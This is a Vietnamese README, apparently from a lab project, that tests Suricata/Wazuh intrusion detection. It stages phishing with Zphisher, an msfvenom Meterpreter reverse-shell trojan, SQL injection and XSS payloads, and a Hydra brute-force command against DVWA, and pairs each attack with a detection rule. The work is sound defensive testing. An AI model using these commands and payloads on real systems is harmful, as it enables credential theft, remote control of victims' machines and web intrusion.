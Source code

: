 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
![](Image/KB1_1.png)  
  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
![](Image/KB1_2.png)  
  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy kẻ tấn công
![](Image/KB1_3.png)  
![](Image/KB1_4.png)  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
![](Image/KB1_5.png)  
  
Phía Wazuh  
![](Image/KB1_6.png)  
  
![](Image/KB1_7.png)  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.39 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.39 ( máy tấn công )  
set LPORT 4444  
exploit  
  
![](Image/KB2_1.png)  
  
![](Image/KB2_2.png)  
  
Mở port 80
![](Image/KB2_3.png)  
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 
![](Image/KB2_4.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  
![](Image/KB2_5.png)  
  
Phía Wazuh
![](Image/KB2_6.png)  
  
## Kịch bản 3: tấn công web
Mục tiêu:  
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web  
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát  
Môi trường kiểm thử: website DVWA  
![](Image/DVWA_dashboard.png)  
  
### SQL injection
Dùng các payload sau để kiểm tra SQL injection:  
‘ OR 1=1#  
![](Image/WEB_SQL1.png)  
  
' union select table_name,null from information_schema.tables#  
![](Image/WEB_SQL2.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[ALERT] SQL Injection Keywords Detected"; flow: to_server, established; content:"'"; http_uri; pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i"; classtype:web-application-attack; sid:1000021; rev:3;)  
  
Giải thích rule:  
- flow: to_server, established: lưu lượng từ client đến server qua kết nối HTTP đã thiết lập  
- content:"'" + http_uri: kiểm tra có dấu ' trong URI  
- pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i": Regex tìm các pattern SQL Injection như ' or 1=1, --, #, %27, union select  
- classtype:web-application-attack: tấn công ứng dụng web
  
Phía suricata  
![](Image/WEB_SQL3.png)  
  
Phía Wazuh  
![](Image/WEB_SQL4.png)  
  
### XSS (Reflected, Restored)
#### XSS Reflected
Payload XSS Reflected  
Chèn <svg onload=alert('BugBot19 was here')> vào ô What’s your name  
![](Image/WEB_XSSREFLECT1.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Reflected XSS attempt - <script>"; content:"<script>"; nocase; http_uri; sid: 1001001; rev:1;)  
alert http any any -> any any (msg:"Reflected XSS attempt - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_uri; sid:1001002; rev:1;) alert http any any -> any any (msg:"Reflected XSS attempt - alert("; content:"alert("; nocase; http_uri; sid:1001003; rev:1;)  

Giải thích rule:  
- http_uri: kiểm tra trên phần URI  
- content:"<script>", "<img src=x onerror", "alert(": các payload XSS phổ biến  
- nocase: không phân biệt hoa thường  
  
Phía suricata  
![](Image/WEB_XSSREFLECT2.png)  
  
Phía Wazuh  
![](Image/WEB_XSSREFLECT3.png)  
  
#### XSS Restored
Payload XSS Restored  
Chèn <script>alert(document.domain)</script> vào ô Message  
![](Image/WEB_XSSRESTORE1.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Stored XSS Detected in HTTP response"; content:"<script>"; nocase; http_server_body; sid:1001004; rev:1;)  
alert http any any -> any any (msg:"Stored XSS Detected - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_server_body; sid: 1001005; rev:1;)  

Giải thích rule:  
- http_server_body: kiểm tra nội dung phần body trả về từ server
- content:"<script>", "<img src=x onerror": payload XSS điển hình

Phía suricata  
![](Image/WEB_XSSRESTORE2.png)  
  
Phía Wazuh  
![](Image/WEB_XSSRESTORE3.png)  
  
### Brute Force
Dùng công cụ Hydra để triển khai brutefoce:  
hydra -l admin -P /usr/share/wordlists/rockyou.txt (IP nạn nhân) http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=(Session của kẻ tấn công):F=Username and/or password incorrect."  
![](Image/WEB_BRUTEFORCE1.png)  
![](Image/WEB_BRUTEFORCE2.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Brute Force Attempt to DVWA (GET)"; flow: to_server,established; content: "GET"; http_method; content:"/vulnerabilities/brute/"; http_uri; threshold: type both, track by_src, count 5, seconds 10; sid:1000011; rev:1;)  

Giải thích rule:  
- http_method: GET + http_uri: "/vulnerabilities/brute/": yêu cầu GET đến endpoint brute-force  
- threshold: nếu 1 IP gửi >=5 yêu cầu trong 10 giây, sẽ trigger alert  
- track by_src: theo dõi theo địa chỉ IP nguồn (client)

Phía suricata  
![](Image/WEB_BRUTEFORCE3.png)  
  
Phía Wazuh  
![](Image/WEB_BRUTEFORCE4.png)  
  
